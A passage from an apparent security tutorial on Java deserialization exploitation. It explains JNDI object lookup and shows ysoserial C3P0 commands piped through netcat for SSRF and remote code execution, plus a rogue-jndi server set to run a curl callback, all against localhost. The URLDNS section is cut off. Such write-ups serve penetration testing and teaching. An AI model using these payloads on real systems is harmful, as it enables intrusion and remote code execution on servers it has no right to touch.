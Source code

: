 Object Lookup is a Java feature related to [Java Naming and Directory Interface](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface). In short, it allows for retrieving ("[looking up](https://docs.oracle.com/en/java/javase/12/docs/api/java.naming/javax/naming/Context.html)") remote Objects from various sources. These sources can be LDAP directories, RMI Servers or HTTP Servers. Usually, this feature is abused against vulnerability class JNDI Injection, [which you can read more about here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) and [here](https://github.com/welk1n/JNDI-Injection-Bypass).

Payloads that rely on this attack vector needs you to host a malicious object on your side, and the deserializing end will perform a lookup of the malicious object, which means, it will download and execute it. Due to hardening of modern Java there are some caveats which won't be discussed here due to being too extensive. In short, in the past you were able just to host a compiled Java class to be executed. Now it has to meet some more requirements, which are described in aforementioned article about JNDI Injections.

During experiments, I was not able to get to work `Hibernate2` and `Myfaces2`, however I was able to get `C3P0` working while hosting the malicious Object using [Artsploit — Rogue JNDI](https://github.com/artsploit/rogue-jndi).

To use this payload, first we run a netcat listener and a vulnerable TCP server.

This payload (if `C3P0` gadgets are present on classpath) can be used to craft both a SSRF and an RCE. For simple SSRF (Lookup attempt) use

```sh
java -jar ysoserial.jar C3P0 "http://127.0.0.1:9999/:SSRF" | nc -v 127.0.0.1 12345
```

![](https://miro.medium.com/max/1210/0*6f0TYvuxseeLiIfC.png)

For RCE, we'll need to set up rogue-jndi and point the ysoserial payload to it.

```sh
java -jar ysoserial.jar C3P0 "http://127.0.0.1:8000/:xExportObject" | nc -v 127.0.0.1 12345
```

![](https://miro.medium.com/max/1210/0*MAYJOW9nHk2If2lH.png)

While on port 8000 there's rogue-jndi listening

```sh
java -jar RogueJndi-1.1.jar -c "curl http://127.0.0.1:9999/rce"
```

![](https://miro.medium.com/max/1210/0*X2d7_yZdNo-o6N8M.png)

Which results in executing the malicious object

![](https://miro.medium.com/max/1210/0*H6_WiNoJ1LMZT-Y2.png)

## 4.4 URLDNS

A very powerful payload in terms of blind testing. DNS Lookup is a feature of Java when handling serialized URL object [crafted in a specific way](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/). It's powerful because that payload also does not require any additional libraries to work. Use it as

